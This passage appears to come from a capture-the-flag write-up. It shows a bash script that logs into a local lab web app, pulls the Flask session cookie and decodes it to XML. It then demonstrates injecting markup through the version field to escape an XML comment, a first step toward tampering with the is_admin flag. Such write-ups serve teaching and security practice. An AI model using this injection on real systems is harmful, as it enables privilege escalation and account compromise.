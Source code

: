 

I wrote a quick script that will take a username and version, log into
the site, collect the returned cookie, decode it down to XML, and print
it:



    #!/bin/bash


    username=$(echo $1 | sed 's/\\n/\n/g')
    version=$(echo $2 | sed 's/\\n/\n/g')

    cookie=$(curl -s -v -X POST 'http://127.0.0.1:8888/login' --data-urlencode "username=$username" --data-urlencode "version=$version" -x http://127.0.0.1:8080 2>&1 |               
        grep Set-Cookie |                               
        cut -d'=' -f2 |              
        cut -d';' -f1)
    echo "[+] Got cookie: $cookie" 
    flask_session_cookie_manager3.py decode -c $cookie |
        cut -d"'" -f2 |                                           
        jq -r '.lxml." b"' |                      
        base64 -d |          
        base64 -d
    echo



Running it prints the decoded XML:



    oxdf@parrot$ ./test-cookie.sh 0xdf 1.0.0
    <!-- API Version 1.0.0 -->
    <root>
        <data>
            <username>0xdf</username>
            <is_admin>0</is_admin>
        </data>
    </root>



What's cool is that by playing around with this, I can see how I can
mess with the cookie. For example, I can use comments to add stuff
outside the `<root>`:



    oxdf@parrot$ bash ./test-cookie.sh 0xdf '-->Dangerous stuff!<!--'
    <!-- API Version -->Dangerous stuff!<!-- -->
    <root>
        <data>
            <username>0xdf</username>
            <is_admin>0</is_admin>
        </data>
    </root>


